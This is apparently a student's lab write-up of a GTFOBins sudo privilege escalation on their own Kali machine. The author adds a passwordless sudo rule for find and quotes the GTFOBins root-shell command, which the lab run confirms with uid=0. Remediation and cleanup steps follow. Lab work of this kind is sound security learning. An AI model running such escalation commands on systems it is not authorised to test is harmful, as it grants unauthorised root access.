





# 🗝️ Pentesting Day 12: GTFOBins (Privilege Escalation Techniques)

<p align="center">
  
  
  
  
</p>

> Day 11 (LinPEAS) correctly found **nothing** to escalate through — because nothing was misconfigured yet. Day 12 builds that misconfiguration on purpose, looks it up on GTFOBins, and actually becomes root. This is the first fully end-to-end success this week. 🗝️

---

## 🏆 Day 11 Recap — What LinPEAS Taught Me

- Ran as a genuine low-privilege user (`peastest`); found 10 standard SUID binaries and **no sudo access** — a clean, honest "nothing to escalate through."
- One real gap: the API-key regex check was skipped (`-r` not passed) — "not activated" is different from "nothing found."
- Conclusion at the time: Day 12 needs to deliberately introduce a misconfiguration to have something real to demonstrate.

---

## 🎯 Mission Briefing

GTFOBins catalogs known privilege-escalation techniques per Unix binary. I created a throwaway user (`gtfotest`), confirmed it had **no** sudo access, deliberately gave it passwordless sudo on `find`, looked up the matching GTFOBins technique, and used it to get an actual root shell — then cleaned everything up.

```
🗝️ MISSION: Use a Real GTFOBins Technique to Escalate Privileges
──────────────────────────────────────────
[x] Create gtfotest, confirm NO sudo access beforehand
[x] Deliberately misconfigure: NOPASSWD sudo on /usr/bin/find
[x] Validate the sudoers rule (visudo -c) before trusting it
[x] Look up find on GTFOBins (Sudo technique)
[x] Run the technique -> confirmed uid=0(root)
[x] Write up the finding like a real report (risk, evidence, remediation)
[x] Clean up: remove the rule, confirm sudo access is denied again
──────────────────────────────────────────
STATUS: Pentesting Day 12 — Complete success, fully documented, fully cleaned up
```

---

## ⚡ Quick Theory

```
GTFOBins categories: Sudo, SUID, Shell, File read, File write, Capabilities
Sudo technique     -> works because the binary runs with the PRIVILEGED user's rights when
                       invoked via sudo, and `find`'s -exec can run any arbitrary command
NOPASSWD            -> sudoers entry that skips the password prompt entirely for that command
visudo -c / -cf     -> validates sudoers syntax BEFORE it's trusted/active
```

> ⚖️ **Scope:** only `gtfotest`, a throwaway account on my own machine — cleaned up at the end.

---

## 💻 Lab: Commands + My Real Output

*(Machine: Kali Linux, user `ruin`; test user: `gtfotest`)*

### 🏗️ Step 0 — Create the test user, confirm NO sudo access first
```bash
$ mkdir -p ~/Desktop/kali/day12-gtfobins && cd ~/Desktop/kali/day12-gtfobins
$ sudo adduser --disabled-password --gecos "" gtfotest
$ sudo passwd gtfotest
passwd: password updated successfully

$ sudo -u gtfotest whoami
gtfotest
$ sudo -u gtfotest sudo -l
Sorry, user gtfotest may not run sudo on Devil.
```
Confirmed the **baseline, before any misconfiguration**: `gtfotest` has no sudo access at all — same clean state LinPEAS found on Day 11.



### 🔍 Part A — Introduce the deliberate misconfiguration
```bash
$ id gtfotest
uid=1003(gtfotest) gid=1003(gtfotest) groups=1003(gtfotest),100(users)

$ echo 'gtfotest ALL=(root) NOPASSWD: /usr/bin/find' | sudo tee /etc/sudoers.d/gtfotest
$ sudo chmod 440 /etc/sudoers.d/gtfotest
$ sudo visudo -cf /etc/sudoers.d/gtfotest
/etc/sudoers.d/gtfotest: parsed OK

$ sudo -u gtfotest sudo -l
Matching Defaults entries for gtfotest on Devil:
    secure_path=/usr/sbin\:/usr/bin\:/sbin\:/bin
User gtfotest may run the following commands on Devil:
    (root) NOPASSWD: /usr/bin/find
```
Added a rule letting `gtfotest` run `/usr/bin/find` as root, **with no password**, and validated the sudoers syntax (`visudo -cf`) before trusting it — confirmed by `sudo -l` showing the exact rule.



### 🔍 Part B — Look up `find` on GTFOBins
```bash
$ which find
/usr/bin/find
$ ls -l /usr/bin/find
-rwxr-xr-x 1 root root 310512 Jul 25 14:08 /usr/bin/find
$ firefox https://gtfobins.github.io/gtfobins/find/
```
`find` is a normal executable (no SUID bit set) — confirming the technique here is the **Sudo** one, not SUID. GTFOBins' Sudo section for `find` lists:
```
find . -exec /bin/sh \; -quit
```
"This function is performed by the privileged user if executed via sudo, because the acquired privileges are not dropped."



### 🔍 Part C — Use the technique, confirm root
```bash
$ sudo -u gtfotest sudo /usr/bin/find /etc/hostname -maxdepth 0 -exec /usr/bin/id \;
uid=0(root) gid=0(root) groups=0(root)
```
Rather than spawning an interactive `/bin/sh`, I used `find`'s `-exec` to run `id` directly — same underlying technique (sudo'd `find` executing an arbitrary command), proven cleanly: **`uid=0(root)`**. The low-privilege `gtfotest` account, via one misconfigured sudo rule, fully escalated to root.



### 🔍 Part D — Write the finding like a real report
```bash
$ cat real-finding.txt
GTFOBins - Privilege Escalation Finding

Finding: Passwordless Sudo Permission
User: gtfotest
Binary: /usr/bin/find
Risk: High
Evidence: NOPASSWD sudo permission
Verification: uid=0(root)
Reference: https://gtfobins.github.io/gtfobins/find/

Impact:
The test user can execute commands with root privileges.

Remediation:
Remove unnecessary sudo permission.
Restrict privileged binary access.
```
A proper finding write-up: what was found, how risky it is, how it was verified, and what to do about it — the same shape a real penetration-test report entry would take.

### 🧹 Part E — Clean up
```bash
$ sudo rm -f /etc/sudoers.d/gtfotest
$ sudo visudo -c
/etc/sudoers: parsed OK
/etc/sudoers.d/kali-grant-root: parsed OK
/etc/sudoers.d/ospd-openvas: parsed OK

$ sudo -u gtfotest sudo -l
Sorry, user gtfotest may not run sudo on Devil.

$ cat cleanup-summary.txt
GTFOBins Lab Cleanup Summary

Test User: gtfotest
Binary: /usr/bin/find
Lab Sudo Rule: Removed
Sudoers Validation: Passed
User Sudo Access: Denied
Lab Status: Cleaned Up
```
Removed the deliberate rule, re-validated the whole sudoers config (two **pre-existing, unrelated** Kali system files — `kali-grant-root` and `ospd-openvas` — also parsed OK, confirming the cleanup didn't break anything else), and confirmed `gtfotest` is back to **no sudo access** — same state as Step 0.



---

## 🧪 What I Actually Found

- [x] `gtfotest` confirmed with **no sudo access** before any changes
- [x] Deliberately added `NOPASSWD: /usr/bin/find`, validated with `visudo -cf` before trusting it
- [x] GTFOBins' `find` page confirmed the **Sudo** technique (not SUID — `find` has no SUID bit here)
- [x] **Real privilege escalation achieved:** `sudo -u gtfotest sudo /usr/bin/find ... -exec /usr/bin/id \;` → `uid=0(root)`
- [x] Finding written up with risk, evidence, impact, and remediation
- [x] **Fully cleaned up:** rule removed, sudoers re-validated (including two unrelated pre-existing files), `gtfotest`'s sudo access confirmed denied again

---

## 🎯 Mini Challenges

> **🥊 Challenge 1: Why `-exec id` Instead of `-exec /bin/sh`?**
> GTFOBins' listed command spawns a shell; I ran `id` instead. Does that count as the same technique?

<details>
<summary>My answer</summary>

Yes — the underlying mechanism is identical: `sudo`'d `find` runs whatever command `-exec` specifies, with root's privileges, because sudo doesn't drop acquired privileges for the command it executes. Spawning `/bin/sh` gets an interactive root shell; running `id` is a safer, minimal way to *prove* root was reached without actually opening a persistent shell. Both demonstrate the exact same misconfiguration.

</details>

> **🥊 Challenge 2: Why Validate Sudoers Twice (Before AND After)?**
> I ran `visudo -c`/`-cf` both when adding the rule and when removing it. Why bother both times?

<details>
<summary>My answer</summary>

Before adding: to make sure a syntax mistake in my new rule wouldn't break sudo entirely (a broken sudoers file can lock everyone out of sudo, including me). After removing: to confirm the cleanup itself didn't accidentally damage the rest of the sudoers configuration — the two unrelated pre-existing files parsing OK afterward proves the cleanup was surgical, not disruptive.

</details>

> **🥊 Challenge 3: What's the Actual Root Cause Here — `find`, or Something Else?**
> Is `find` itself dangerous?

<details>
<summary>My answer</summary>

No — `find` is a completely ordinary, safe utility by default. The actual root cause is the **sudo rule** that let a low-privilege user run it as root with no password. GTFOBins exists precisely because *many* ordinary utilities (not just `find`) can be abused this way once something grants them elevated execution rights — the misconfiguration is always the real vulnerability, not the binary.

</details>

> **🥊 Challenge 4: How Does This Connect Back to Day 11?**
> LinPEAS found nothing on Day 11. What would LinPEAS have shown if run again today, mid-lab?

<details>
<summary>My answer</summary>

If I'd run LinPEAS as `gtfotest` *after* adding the sudo rule but *before* cleaning up, it would have flagged exactly this — a NOPASSWD sudo entry on a GTFOBins-listed binary — as a red/yellow finding. That's the full real-world chain: LinPEAS (or manual enumeration) finds the opportunity, GTFOBins tells you what to do with it. Today I built that chain deliberately instead of waiting to stumble onto a real one.

</details>

---

## 🧩 Quick Brain Check

1. What specifically made `find` exploitable here — the binary, or the sudo rule?
2. Why validate a sudoers file with `visudo` instead of editing `/etc/sudoers` directly with a normal editor?
3. What's the difference between the GTFOBins "Sudo", "SUID", and "Shell" categories?
4. Why write up a lab finding (risk/evidence/impact/remediation) instead of just noting "it worked"?
5. Why is cleaning up a deliberately-introduced misconfiguration just as important as demonstrating it in the first place?

---

## 🐛 Errors / Gotchas I Hit

- None, really — this was the cleanest run of the week. The one thing worth noting: `sudo visudo -c` (system-wide check) picked up **two pre-existing sudoers.d files** (`kali-grant-root`, `ospd-openvas`) unrelated to this lab — normal Kali system configuration, not something I created, but good to recognize rather than mistake for lab leftovers.

---

## 🔐 Security Relevance

This is the complete picture of why least-privilege sudo rules matter: a single `NOPASSWD` entry on an "ordinary" binary like `find` — something that looks harmless on a sudoers audit at a glance — is a direct path to full root. The remediation is exactly what I wrote in the finding: remove unnecessary sudo grants, and if a specific command genuinely needs elevated access, scope it as tightly as possible (exact arguments, not a bare binary path) rather than handing over the whole tool.

---

## 🧠 Today's Takeaway

This was the first fully end-to-end success of the week: baseline confirmed clean → misconfiguration deliberately introduced and validated → GTFOBins technique looked up and correctly matched to the Sudo category → actual root achieved and verified (`uid=0`) → finding documented like a real report → fully cleaned up and re-verified back to baseline. Every other tool this week (sqlmap, Metasploit, hashcat's rules step, hydra) hit a real snag along the way — today didn't, and the discipline of validating before AND after, plus writing an honest cleanup summary, is exactly the habit worth carrying into every future privesc exercise.

---

⬅️ [Back to Pentesting index](/Pentesting) | ➡️ Next up: **Day 13: Burp Suite**
